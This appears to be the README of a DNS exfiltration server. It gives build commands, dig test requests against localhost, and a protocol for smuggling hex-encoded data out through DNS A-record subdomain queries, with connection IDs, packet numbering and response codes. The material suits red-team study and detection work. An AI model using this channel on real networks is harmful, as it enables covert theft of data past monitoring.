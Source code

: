 `make production domain=example.com`

You can also choose to build the program with debugging by making the `debug` target.

`make debug domain=example.com`

For both targets, you will need to specify the domain the server is listening for.
## Sending Test Requests
You can use `dig` to send requests to the server:

`dig @127.0.0.1 a.1.1.1.example.com A +short` send a connection request to a server on localhost.

`dig @127.0.0.1 b.1.1.54686520717569636B2062726F776E20666F782E1B.example.com A +short` send a test message to localhost.

Replace `example.com` with the domain the server is listening for.

# Protocol
## Starting a Connection
A record requests starting with `a` indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

The following is the format to follow for starting a connection: `a.1.1.1.[sld].[tld].`

The server will respond with an IP address in following format: `123.123.123.[id]`

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## Exfiltrating Data
A record requests starting with `b` indicate exfiltrated data being sent to the server.

The following is the format to follow for sending data after establishing a connection: `b.[packet #].[id].[data].[sld].[tld].`

The server will respond with `[code].123.123.123`

`id` is the id that was established on connection. Data is sent as ASCII encoded in hex.

`code` is one of the codes described below.
## Response Codes
### `200`: OK
If the client sends a request that is processed normally, the server will respond with code `200`.
### `201`: Malformed Record Requests
If the client sends an malformed record request, the server will respond with code `201`.
### `202`: Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with code `202`.
### `203`: Out of Order Packets
If the client sends a packet with a packet id that doesn't match what is expected, the server will respond with code `203`. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet with the new packet id.
### `204` Reached Max Connection
If the client attempts to create a connection when the max has reached, the server will respond with code `204`.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, they should resend the same payload.
